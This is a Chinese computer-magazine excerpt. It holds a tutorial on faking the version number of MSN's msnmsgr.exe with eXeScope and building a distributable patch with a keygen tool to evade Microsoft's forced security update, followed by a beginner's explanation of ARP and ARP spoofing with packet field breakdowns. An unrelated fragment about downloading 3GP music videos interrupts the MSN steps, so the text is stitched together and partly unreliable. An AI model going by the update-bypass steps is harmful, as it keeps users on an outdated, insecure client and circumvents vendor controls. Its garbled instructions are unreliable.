# 轻松登录 MSN 快乐赛上更新

图：smallrascal

**从本文你可以学到：**

- 如何继续使用低版本 MSN

偶虽不是 MSN 的忠实粉丝，但使用它也已经很久了，经历了好几次 MS 霸道的强制更新。虽然似乎是“好心”的解决安全问题，可还是让我对这个软件帝国产生了厌恶！既然已经用惯了自己喜欢的版本，基本功能已经够用了，不想升级享受更多的“烦扰”，难道就不能自己来破解，让低版本继续效力吗？废话不多说了，看我来“破解”！

破解所使用的 MSN 版本号为 8.1.0178.00，如图 1 所示。输入正确的账号及密码点击登录后，出现“必须安装新版本才可以继续使用”的提示，MS 的霸道尽显于此，如图 2 所示。

在网上搜索了许久，没有发现 8.1 及以上版本的不升级而运行的解决方法，但却找到了 7.5 的破解文件。相关资料中提到，MSN 仅仅是验证主文件的版本号来确认是否升级。





既然这样，那要解决我们遇到的问题就很简单了。首先请出 eXeScope，它能在没有资源文件的情况下分析显示不同的信息，重写可执行文件的资源，包括（EXE、DLL、OCX）等，可以直接修改用 VC++ 及 DELPHI 编制的程序的资源，包括菜单、对话框、字串类等。



```
*************?now=Sat%20Aug%2022%2011:35:16%20UTC+0800%202009
```

其中的 ************* 替换成你在这个站找到的“flv 文件的文件名 + .3gp 后缀”就可以下载咯。还看着我干什么，快去抢高清 MV 啊。

> **编辑点评：** 其实并不算高清，只是屏幕小时看起来就很清晰了。如果想放到手机上看就下载 3GP 吧，当然，前提是你的手机支持播放 3GP 格式文件。

打开 MSN 主文件 msnmsgr.exe，稍等片刻即可完成文件的加载分析过程，然后点开左侧结构栏 Resource 下的 Version 中的 1 项。现在看右侧的内容，文本框“File Version”及“Product Version”和列表框“FileVersion”及“ProductVersion”中显示的都是 8.1.0178.00。

接着到网上查找 MSN 最新版的版本号，我找到的为 14.0.8064.0206。然后将上面的 4 项内容都修改为这个最新的版本号，如图 3 所示。

修改完成后点击工具栏上倒数第二个按钮，即“Save Update”，会弹出一个对话框，询问是否修改文件大小，如图 4 所示。



因版本信息是保存在资源结构中的，如果不修改大小，可能会破坏整个资源结构，从而导致文件损坏，所以必须修改。保存后我们运行 MSN，然后查看下版本信息，已经变成最新的版本号了，如图 5 所示。



好了，现在可以输入账号、密码进行登录了，不会再出现必须更新才可使用的现象，并同时避免了登录后有新版本更新的提示。到这里，整个“破解”过程完成，是不是很简单呀？

如果遇到重装该版本 MSN，或要大批量地修改低版本的 MSN，如何能做到一劳永逸呢？请继续跟着我来。下面请出第一位主角——keymaker，它是一个注册机生成工具，可以快速、轻松地生成破解的相关工具，我们要利用的仅仅是其中一个小功能——文件补丁。



打开程序，点击“其它”按钮，选择菜单中的“制作文件补丁”，或者按 F7。稍后弹出制作文件补丁的窗口，根据提示输入相关信息，在下方“原始的文件”处输入或选择未被修改的 MSN 主文件 msnmsgr.exe 的具体路径，在“已被破解文件”处则选择修改后的文件，如图 6 所示。

全部设置完成后点击“制作”按钮，立刻就完成了文件补丁的制作，生成了补丁文件，速度相当快。直接把生成的补丁文件放到 MSN 主文件 msnmsgr.exe 所在的文件夹后点击“确定”即可轻松修改版本号了，如图 7 所示。



这样，不管是以后重装还是批量修改低版本的 MSN，都可以保证正常运行了，真是简单啊！

> **编辑点评：** 一个障眼法的小技巧，MSN 就上当了。不过话说回来，MS 为什么在 MSN 上偏偏就要求强制更新呢？

# 菜鸟恶补：认识 ARP 欺骗的原理和过程



> 首语：又是一年的国庆，今年有阅兵式可以看了，突然想起 10 年前的国庆，时间总是不经意间就走掉了。60 年，留下些什么，等过去后才发现时间原来是这么的不够用。不知道 80 年后，样子会是什么样子呢……

**从本文您可以学到：**

- 认识 ARP 欺骗的原理和过程

有关 ARP 的知识在网上讨论得够多了，特别是 ARP 欺骗病毒流行的时候，各种介绍 ARP 协议、ARP 病毒的资料到处都是。我们仔细看了一下，发现大多数都是停留在理论分析上，当然对于专业网络技术人员，一看就懂。但对于刚入门的网络初学者来讲，通过具体的实例来讲解就更容易理解了。本文的目的就是通过搭建具体的实验环境，分析具体的数据包，使初学者一看就明白。

## 一、实验用的拓扑结构

如图 1，为本次讲解所使用的拓扑结构图，以后的实验都是基于此拓扑结构。

| 设备名称 | IP | MAC |
|---|---|---|
| PC1 | 192.168.0.8 | 00-14-2a-34-1c-6d |
| PC2 | 192.168.0.33 | 00-e0-4d-0d-3c-35 |
| PC3 | 192.168.0.11 | 00-e0-44-3d-4e-34 |
| ROUTE | 192.168.0.1 | 00-19-e0-e7-f7-52 |

准备的抓包软件：Sniffer

## 二、ARP 协议基础知识

### 1、定义

ARP（Address Resolution Protocol）即地址解析协议，用于将计算机的网络地址（IP 地址 32 位）转化为物理地址（MAC 地址 48 位）[RFC826]。

ARP 协议是属于链路层的协议，而在以太网中的数据帧从一个主机到达网内的另一台主机是根据 48 位的以太网地址（硬件地址）来确定接口的，并不是根据 32 位的 IP 地址。内核（如驱动）必须知道目的端的硬件地址才能发送数据。当然，点对点的连接是不需要 ARP 协议的。



要点：ARP 协议是在已知三层地址但不知二层地址（知道 IP 但不知道 MAC 地址）的情况下，用来查询目的 IP 地址所对应的 MAC 地址的一种辅助类协议。即它是工作在第二层的，再通俗地讲，它是发生在局域网中的。也就是说我们平常看到的 ARP 欺骗病毒都是在一个单位的局域网内，而对于一个单独专线上网的用户来说，可能很少碰到这种情况。

### 2、工作机制

每台二层或三层以上的设备都会维护一张 ARP 表（Windows 用户在命令行下输入 `arp -a` 命令就能看到 ARP 表了），这个表记录了三层地址和二层地址的对应关系，以便实现以太网的点到点通信。

如果要发起一个三层或三层以上的通信，那么源设备首先会查询自己的 ARP 表有没有符合的条目，如果没有，这时就要用到 ARP 协议来创建这个条目了。

在分析 ARP 报文之前，有必要先对 ARP 报文的结构进行了解，大家可以参考如图 2 的报文结构：

图 2 ARP 报文结构

| 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 |
|---|---|---|---|---|---|---|---|---|---|---|---|
| 目的 MAC | 源 MAC | 协议类型 | 硬件类型 | 协议类型 | 硬件地址长度 | 协议地址长度 | 操作类型 | 发送者 MAC | 发送者 IP | 接收者 MAC | 接收者 IP |

前面三部分属于二层帧头的内容，后面 4—12 部分属于 ARP 头，总体内容的各字段作用如下：

- 1. 目的 MAC：该 ARP 帧将要到达的目的 MAC 地址。
- 2. 源 MAC：发起该 ARP 帧的源主机接口的 MAC 地址。
- 3. 协议类型：用来描述该帧将用什么协议来处理。如果值为 806，则表示将该帧交给 ARP 协议处理，也就是说这个帧是一个 ARP 帧。
- 4. 硬件类型：用来描述二层协议，当值为 1 时表示是 10M 以太网（100M 的帧结构和 10M 一样，所以也是 1）。
- 5. 协议类型：用来描述多种三层协议，比如 IP、IPX、AppleTalk 等等（IP 为 800）。
- 6. 硬件地址长度：指定二层地址的长度，MAC 地址为 6 字节，所以值为 6。
- 7. 协议地址长度：指定三层地址的长度，IP 地址为 4 字节，所以值为 4。
- 8. 操作类型：描述该数据包所做的 ARP 动作（请求为 1，响应为 2）。
- 9. 发送者 MAC：告诉对方自己是谁（二层），这样对方才可以知道是谁对它做了 ARP 动作。正常情况下是发起该 ARP 包的主机接口的 MAC 地址，但如果是病毒或黑客程序，则会更改此字段以达到隐藏自己的目的。
- 10. 发送者 IP：告诉对方自己是谁（三层），这样对方才可以知道是谁对它做了 ARP 动作。正常情况下是发起该 ARP 包的主机接口的 IP 地址，但如果是病毒或黑客程序，则会更改此字段以达到隐藏自己的目的。
- 11. 接收者 MAC：最终接收该 ARP 包的网络接口的 MAC 地址。
- 12. 接收者 IP：最终接收该 ARP 包的网络接口的 IP 地址。

## 三、实验剖析

为了解释 ARP 协议的作用，就必须理解数据在网络上的传输过程。怎样让系统产生 ARP 数据包供我们抓到呢？这里举一个简单的 PING 例子。





第三字段 2 字节，是协议类型，ARP 的类型值为 0806H（H 表示十六进制），所以我们可以看到图 3 中的值为 0806，表示该帧为 ARP 帧，如还有 IP 协议为 0800，IPv6 协议为 86DD。

第四字段 2 字节，是硬件类型，ARP 头从该字段开始。由于我们用的是标准以太网（快速以太网也是标准的以太网帧），所以值为 1H（0001），表示是 10M 以太网（实际是 100M）。

第五字段 2 字节，是协议类型，我们用的是 IP 协议，IP 对应的值是 800H，所以显示值为 0800。

第六字段 1 字节，为硬件地址长度偏移，这个值告诉处理该帧的程序，读取硬件地址时读到哪里结束。MAC 地址为 6 字节，所以该字段的值就为 6，程序从硬件地址字段开始读取，读完 6 字节后认为该硬件地址已经读取完毕了。

第七字段 1 字节，为协议地址长度偏移，这个值告诉处理该帧的程序，读取协议地址时读到哪里结束。IP 地址为 4 字节，所以该字段的值就为 4，程序从协议地址字段开始读取，读完 4 字节后认为该协议地址已经读取完毕了。

第八字段 2 字节，为操作类型，ARP 提供几种操作类型，用来表示这个报文的类型。ARP 请求为 1，ARP 响应为 2，RARP 请求为 3，RARP 响应为 4，我们一般常用的只有前两种。

第九字段 6 字节，为发送者 MAC 地址，该地址用来告诉本次操作的对方，是哪个 MAC 地址对它进行了操作。

第十字段 4 字节，为发送者 IP 地址，该地址用来告诉本次操作的对方，是哪个 IP 地址对它进行了操作，这里是十六进制的。

第十一字段 6 字节，为接收者 MAC 地址，用来告诉本次操作的对方，是哪个 MAC 地址应该接收并处理该帧。如果是请求 ARP，这里就为 00-00-00-00-00-00，因为还不知道对方的 MAC；如果是响应 ARP，这里就是接收者的 MAC。

第十二字段 4 字节，为接收者 IP 地址，用来告诉本次操作的对方，是哪个 IP 地址应该接收并处理该 ARP 报文。图 3 中 c0-a8-00-21 转换为十进制为 192.168.0.33。

是不是发现后面还有很多 0 呢？啊呵，其实不用奇怪，那些 0 是没有用的，只是做个填充的作用。由于以太网报文规定最小不能小于 60 字节（为什么，自己查 TCP/IP 相关资料），而 ARP 只用了 42 个字节，所以它需要用 0（其实不一定是“0”）来填充剩下的 18 个字节。

